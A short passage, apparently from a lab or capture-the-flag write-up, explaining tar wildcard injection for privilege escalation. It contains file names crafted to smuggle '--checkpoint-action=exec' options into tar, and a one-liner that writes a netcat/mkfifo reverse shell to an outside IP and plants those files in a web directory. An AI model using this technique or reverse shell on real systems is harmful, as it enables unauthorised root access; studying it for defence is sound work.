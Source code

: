```bash
-rw-r–r–. 1 leon leon 0 Oct 28 19:19 –checkpoint=1

-rw-r–r–. 1 leon leon 0 Oct 28 19:17 –checkpoint-action=exec=sh shell.sh

-rw-rw-r–. 1 user user 187 Oct 28 17:44 db.php

-rw-rw-r–. 1 user user 201 Oct 28 17:43 download.php

-rwxr-xr-x. 1 leon leon 12 Oct 28 19:17 shell.sh
```

By using the * wildcard in the tar command, these files will be understood as passed options to the tar binary and shell.sh will be executed as root.

Basically, tar allows the usage of 2 options that can be used for poisoning, in order to force the binary to execute unintended actions:

1.	checkpoint[=NUMBER] — this option displays progress messages every NUMBERth record (default value is 10)
2.	checkpoint-action=ACTION — this option executes said ACTION on each checkpoint

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.39.185 4455 >/tmp/f" > shell.sh && touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" && touch "/var/www/html/--checkpoint=1"
```
